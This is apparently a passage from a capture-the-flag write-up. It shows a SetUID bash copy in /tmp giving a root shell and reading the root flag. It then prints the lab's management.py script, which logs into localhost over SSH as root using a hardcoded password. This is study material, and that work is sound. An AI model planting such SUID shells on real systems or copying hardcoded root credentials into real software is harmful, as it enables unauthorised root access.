 `/tmp/0xdf` is there with the SetUID/SetGID bits on (`s` instead of `x` for owner and group):

```

wesley@download:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1183448 Nov  8 11:10 /tmp/0xdf

```

It provides a shell with root effective IDs and I can read the flag:

```

wesley@download:~$ /tmp/0xdf -p
0xdf-5.0# id
uid=1000(wesley) gid=1000(wesley) euid=0(root) egid=0(root) groups=0(root),1000(wesley)
0xdf-5.0# cat /root/root.txt
c4e14025************************

```

## Beyond Root

### Deeper Into TTY Pushback

#### management.py

As root, I can look at the automations that allow for the TTY Pushback attack. `management.py` is set to run as a service:

```

import paramiko
import time
import os

while True:
    print("Deleting files")

    for file_name in os.listdir("/var/lib/postgresql/"):
        if file_name != "12":
            os.remove(os.path.join("/var/lib/postgresql/", file_name))

    # This gives people 60 seconds to get their payload within .bashrc
    time.sleep(60)

    print("SSHing")
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect("localhost", username="root", password="QzN6j#aP#N6!7knrXkN!B$7kq")

    chan = ssh.get_transport().open_session()
    chan.get_pty()
    chan.invoke_shell()
    chan.send(b'/bin/bash -i ./manage-db\n')
    time.sleep(5)
    chan.send(b"psql\n")
    time.sleep(30)

    if not chan.closed:
        chan.close()

```
